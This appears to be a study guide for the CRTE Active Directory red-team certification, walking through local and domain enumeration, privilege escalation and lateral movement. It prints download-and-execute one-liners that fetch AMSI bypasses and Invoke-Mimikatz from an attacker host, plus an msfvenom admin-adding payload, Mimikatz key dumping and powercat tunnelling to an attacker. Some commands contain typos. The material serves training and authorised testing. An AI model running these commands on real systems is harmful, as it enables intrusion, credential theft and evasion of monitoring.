



# General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.


>:exclamation: Domain Admin is not the only way to own an Active Directory environment.

>:exclamation: CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\demiidk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\demiidk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\demiidk\Documents\> powershell -c "iex (iwr -UseBasicParsing http://attacker.1/amsibypass.txt);iex (iwr -UseBasicParsing http://attacker/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.1/PowerView.ps1); import-module .\PowerView.ps1; Get-Domain"
```


```
PS C:\Users\demiidk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\demiidk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\demiidk\Documents\> Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1');"

```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .\PowerView.ps1
```

```
PS C:\Users\demiidk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .\PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating the environment.

<br>

### Enumerating group membership

```
PS C:\Users\demiidk\Documents\> whoami /GROUPS
```

### Importing and executing PowerUp

```
PS C:\Users\demiidk\Documents\> Import-Module .\PowerUp.ps1; Invoke-AllChecks
```
<br>

## Step 02 - Local Privilege Escalation

<br>

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\demiidk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
demiidk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using admini strator privilege)

```
PS C:\Users\demiidk\Documents\> Import-Module .\Mimikatz.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-Mimikatz -Command "'sekurlsa::ekeys'"
```

### Using PowerUp:

```
PS C:\Users\demiidk\Documents\> import-module .\PowerUP.ps1
```

```
PS C:\Users\demiidk\Documents\> Invoke-AllChecks 
```


<br>

## Step 03 - Active Directory enumeration

>:eye: Useful tools for enumerating
>
>PowerView -> Great tool for Active Directory enumeration.
>ADModule -> Signed DLL used for Active Directory management.
>PowerUPSQL -> Dedicated tool for auditing MSSQL.

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

### Importing Active Directory Module.

```
PS C:\Users\demiidk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\demiidk\Documents\> Import-Module .\ActiveDirectory.psd1
```

### Importing PowerView

```
PS C:\Users\demiidk\Documents\> Import-Module .\PowerView.ps1
```

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\demiidk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\demiidk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\demiidk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\demiidk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\demiidk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```

Enumerate MSSQL servers and instances:
```
PS C:\Users\demiidk\Documents\> Get-SQLInstanceBroadcast -Verbose
```

Test if MSSQL is accessible:

```
PS C:\Users\demiidk\Documents\> Get-SQLConnectionTest -Instance SQLSRV01\SQL -Verbose
```

Check if the current SQL Login user can impersonate others:

```
PS C:\Users\demiidk\Documents\> Get-SQLQuery -Instance LAB-SQLSRV01\SQL -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''"
```

Enumerate if LAPS is used in any machine.

```
PS C:\Users\demiidk\Documents\> Get-DomainOU | Get- DomainObjectAcl -ResolveGUIDs | Where- Object {($_.ObjectAceType -like 'ms-Mcs- AdmPwd') -and ($_.ActiveDirectoryRights - match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

Enumerate if GSAD is deployed:


Execute SQL Query on memory:

```
powershell -c "iex (iwr -UseBasicParsing http://attacker/amsibypass.txt);iex (iwr -UseBasicParsing http://attacker/powerupsql.ps1);Get-SQLQuery -Instance LAB-SQLSRV01\SQL -Query 'Select * from DATABASE'"
```


## Step 04 - Lateral Movement.

### Tunneling with PowerCat (Require administrative privileges)

Attacker -> Compromised:1773 -> Target:1433



```
PowerShell on Compromsided:

PS C:\Users\demiidk\Documents\> powercat -l -p 1773 -r tcp:Target:1433 -v 
```
<br>
Target -> Compromised:443 -> Attacker:443



```
PowerShell on Compromsided:

PS C:\Users\demiidk\Documents\> powercat -l -p 1773 -r tcp:Attacker:443 -v 
```